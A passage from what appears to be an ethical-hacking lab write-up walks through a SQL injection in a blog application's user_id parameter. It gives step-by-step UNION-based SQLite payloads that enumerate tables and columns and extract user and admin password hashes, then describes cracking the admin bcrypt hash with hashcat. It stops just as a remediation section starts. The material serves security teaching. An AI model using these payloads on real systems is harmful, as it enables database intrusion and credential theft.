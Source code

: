 #### Exploitation

To extract informations from the DB, the attacker will execute the following Union-based queries:

1. Find the correct number of fields in the original query by using multiple `null` values. The `user_id` parameter will be `2 UNION SELECT null,null,null,null; -- -`
2. Find which field is printed on the web page: `2 UNION SELECT null,'PRINTED',null,null; -- -`
3. Find which DBMS the application is using: `2 UNION SELECT null,sqlite_version(),null,null; -- -`
4. Find the name of the tables in the current DB: 
     - `2 UNION SELECT null,name,null,null FROM sqlite_master WHERE type='table'; -- -`
     - `2 UNION SELECT null,name,null,null FROM sqlite_master WHERE type='table' AND name <> 'blog_post'; -- -`
     - `2 UNION SELECT null,name,null,null FROM sqlite_master WHERE type='table' AND name <> 'blog_post' AND name <> 'comment'; -- -`
5. Find the column names for the `user` table: 
     - `2 UNION SELECT null,name,null,null FROM pragma_table_info('user');`
     - `2 UNION SELECT null,name,null,null FROM pragma_table_info('user') WHERE cid = 1;`
     - `2 UNION SELECT null,name,null,null FROM pragma_table_info('user') WHERE cid = 2;`
     - `2 UNION SELECT null,name,null,null FROM pragma_table_info('user') WHERE cid = 3;`
6. Get username and password of the administrative user: 
     - `2 UNION SELECT null,username||':'||password,null,null FROM user WHERE is_admin = 1;`
7. Get username and password of other users:
     - `2 UNION SELECT null,username||':'||password,null,null FROM user WHERE ID = 3;`
     - `2 UNION SELECT null,username||':'||password,null,null FROM user WHERE ID = 4;`

Once the attacker gets the bcrypt hash of the administrative user, he/she can run `hashcat` to crack it:

![Joan password cracked](../assets/img/posts/eth_lab_1/joan_pwd_crack.png){: width="700"}

**Password cracking time analysis**: 

- Going through the whole 1 million passwords wordlist takes about 8 hours on Boge's PC without GPU, at 50 H/s cracking speed. The `cipher1` password is at 1/3 of the wordlist, so after about 2 hours and a half the attacker should have the plain text password. *It is easy to have better hardware and faster cracking speeds.*
- Going through the whole 1 million passwords wordlist takes about 23 minutes on Cats's PC with GPU support, at 650 H/s cracking speed.

#### Remediation

If we take a look at the source code, this is the only place where the developer stopped using SQLAlchemy's prepared statements and wrote a SQL query where the user input is appended:  
